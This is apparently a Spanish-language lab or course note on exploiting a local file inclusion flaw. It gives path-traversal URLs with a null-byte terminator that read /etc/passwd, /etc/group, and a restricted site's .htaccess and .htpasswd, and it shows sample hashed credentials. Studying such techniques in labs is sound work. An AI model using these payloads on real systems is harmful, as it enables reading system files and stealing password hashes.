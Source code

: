 ## Escapar la concatenación con extensión

```bash
# Si la página concatena (nombre + .php)
http://172.16.22.14/index.html?page=blog

# Esto buscaría passwd.php
http://172.16.22.14/index.html?page=../../../../etc/passwd

# Para evitarlo usar el terminador de cadena de C (%00)
http://172.16.22.14/index.html?page=../../../../etc/passwd%00

# Sacando los usuarios que serán de interes debido a sus privilegios
http://172.16.22.14/index.html?page=../../../../etc/groups%00


http://172.16.22.14/index.html?page=../../../../../etc/group%00
	# users:x:100:usuario1,usuario2,usuario3,admin
	# admins:x:507:usuario1,admin

# Anexo: Lo que pasa en c:
	# char cadena[30] = "Hola mundo";
	# char cadena2[30] = "hola mun\0do";
	# puts(cadena); // Hola mundo
	# puts(cadena2); // Hola mun
```

## Sitios con configuraciones .htaccess
Tomando como base:
+ http://172.16.22.14/index.html?page=blog (Sitio con LFI)
+ http://172.16.22.14/restringido (Este pide autenticación DIGEST o BASIC)

Inferimos que tenemos dos sitios:
+ /var/www/html/sitioweb
+ /var/www/html/restringido

Por lo que podemos:
~~~bash
# Obtenemos configuración de .htaccess
http://172.16.22.14/index.html?page=../restringido/.htaccess%00
# /var/www/html/sitioweb/..restringido/.htaccess
	# AuthType Basic
	# AuthName "Restricted - authentication required"
# Aquí incluimos la ruta de los password hasheados
	# AuthUserFile /var/www/html/restringido/.htpasswd 
	# Require valid-user

# Obtenemos configuración de .htaccess
http://172.16.22.14/index.html?page=../restringido/.htpasswd%00
	# user1:mHjBL6MLRc3nQ
	# user2:OkNYEpU0yapIs
	# admin:vjX9YIkiN3RL6
~~~
